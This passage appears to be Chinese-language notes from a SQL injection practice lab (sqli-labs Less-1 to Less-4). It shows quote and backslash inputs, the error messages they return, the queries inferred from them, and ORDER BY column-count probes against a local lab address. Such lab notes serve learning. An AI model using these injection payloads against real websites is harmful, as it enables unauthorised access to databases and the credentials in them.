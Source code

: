 

### **less2 -基于数字**

输入 `?id=1'`

报错信息是

```
' LIMIT 0,1 
```

推断 sql 语句是

```mysql
select login_name,password from admin where id = ** limit 0,1
```



### **less3 基于括号**

输入 `?id=1'`

报错信息是

```
'1'') LIMIT 0,1 
```

推断 sql 语句是

```
select login_name,password from admin where id =('id') limit 0,1
```

验证 http://192.168.70.14:8088

能够出现正确结果 或者使用`--%20`

### **Less4 基于双引号报错**

输入 `?id=1"`或者 `id=1\`

报错消息是：

```
"14"") LIMIT 0,1 ' 
```

推断 sql 语句是

```
select login_name,password from admin where id =("id") limit 0,1
```

## **GET 基于报错的 SQL 注入利用及流量分析**

### **1、** **利用 order by 判断字段数。**

```
http://192.168.70.14:8088/Less-1/?id=1' order by 3 --+
http://192.168.70.14:8088/Less-1/?id=1' order by 4 --+
```
